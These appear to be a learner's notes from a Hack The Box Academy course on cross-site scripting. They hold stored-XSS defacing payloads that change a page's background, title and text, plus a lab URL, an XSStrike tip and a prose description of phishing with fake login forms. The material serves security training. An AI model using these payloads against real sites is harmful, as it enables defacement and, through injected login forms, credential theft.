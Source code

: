 ## Code Review

https://academy.hackthebox.com/course/preview/secure-coding-101-javascript
https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection


question:

http://94.237.48.144:36202/?fullname=awd&username=awd&password=awdawd&email=awdawd%40awdawd.com

>[!note]
>whne using xssstrike make sure to put the url in double quotes or ' '
>trust me

# Defacing

One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks. `Defacing` a website means changing its look for anyone who visits the website.

Four HTML elements are usually utilized to change the main look of a web page:

- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`
## Changing Background
```html
<script>document.body.style.background = "#141d2b"</script>
```

Another option would be to set an image to the background using the following payload:
```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

## Changing Page Title

```html
<script>document.title = 'HackTheBox Academy'</script>
```
## Changing Page Text

```javascript
document.getElementById("todo").innerHTML = "New Text"
```
```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

# Phishing

 A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.
